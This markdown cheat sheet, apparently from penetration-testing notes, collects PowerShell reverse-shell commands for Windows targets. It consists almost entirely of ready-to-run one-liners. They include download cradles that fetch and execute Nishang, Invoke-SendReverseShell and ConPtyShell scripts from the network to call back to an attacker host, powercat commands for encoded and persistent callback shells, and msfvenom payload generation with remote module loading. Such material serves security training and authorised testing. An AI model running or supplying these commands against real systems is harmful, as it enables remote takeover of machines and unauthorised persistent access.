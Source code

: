 # PowerShell

## 01 - Nishang

### 1.1 - TCP Method

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1')

Invoke-PowerShellTcp -Reverse -IPAddress <attacker_IP> -Port <attacker_PORT>
```

### 1.2 - UDP Method

Download cradle through memory.

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellUdp.ps1')

Invoke-PowerShellUdp -Reverse -IPAddress <attacker_IP> -Port <attacker_PORT>
```

### 1.3 - ICMP Method

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1')

Invoke-PowerShellIcmp -IPAddress <attacker_IP>
```

## 02 - `Invoke-SendReverseShell`

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Arno0x/PowerShellScripts/refs/heads/master/Invoke-SendReverseShell.ps1')
```

Direct connection.

```
PS C:\> Invoke-SendReverseShell -DestHost <attacker_IP> -DestPort <attacker_PORT>
```

Connection through system's default proxy.

```
PS C:\> Invoke-SendReverseShell -DestHost <attacker_IP> -DestPort <attacker_PORT> -UseDefaultProxy
```

Connection through manually specified proxy

```
PS C:\> Invoke-SendReverseShell -DestHost <attacker_IP> -DestPort <attacker_PORT> -ProxyName <HTTP_proxy_IP> -ProxyPort <HTTP_proxy_PORT>
```

## 03 - Generate via `powercat`

Generate reverse shell.

```
> powercat -c <IP> -p <PORT> -e cmd.exe -g
```

Generate base64 encoded reverse shell.

```
> powercat -c <IP> -p <PORT> -e cmd.exe -ge
```

Persist callback shell.

```
> powercat -c <IP> -p <PORT> -e cmd.exe -rep
```

## 04 - Generate via `msfvenom`

### 4.1 - x86 (32-bit) Payloads

```
$ msfvenom -p cmd/windows/reverse_powershell lhost=<IP> lport=<PORT> -f raw -o implant.bat
```

You can load powershell scripts ahead of time.

```
$ msfvenom -p cmd/windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell.ps1

$ msfvenom -p windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell.ps1
```

### 4.2 - x86-64 (64-bit) Payloads

You can load powershell scripts ahead of time.

```
$ msfvenom -p windows/x64/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell-x64.ps1
```

## 05 - Fully Interactive PowerShell

^d57486

### 5.1 - Method One

This will set the terminal size automatically without passing the `rows` and `cols` manually.

```
PS C\> IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <attacker_IP> <attacker_PORT>
```

### 5.2 - Method Two

When you encounter an problem to ensure that the `cols` and `rows` are set manually. Here you should use the values read from `stty size` command in the Parameters `-Rows` and `-Cols`

```
PS C\> IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -RemoteIp <attacker_IP> -RemotePort <attacker_PORT> -Rows <rows> -Cols <columns>
```

### 5.3 - Method Three

Here you should use the values read from `stty size` command in the Parameters `-Rows` and `-Cols`.

```
PS C\> IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -Upgrade -Rows <rows> -Cols <columns>
```

---
## References

### Github

- [MrPineMan: Awesome Reverse Shell](https://github.com/MrPineMan/Awesome-Reverse-Shell)

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)

- [samratashok: Nishang](https://github.com/samratashok/nishang)

- [Arno0x: PowerShellScripts](https://github.com/Arno0x/PowerShellScripts)

- [besimorhino: Powercat](https://github.com/besimorhino/powercat)

- [antonioCoco: ConPtyShell](https://github.com/antonioCoco/ConPtyShell)

### Hacktricks

- [Hacktricks: Shell Windows](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/windows.html)

### Ironhackers

- [Ironhackers: Commands in Windows to Get Shell](https://ironhackers.es/en/cheatsheet/comandos-en-windows-para-obtener-shell/)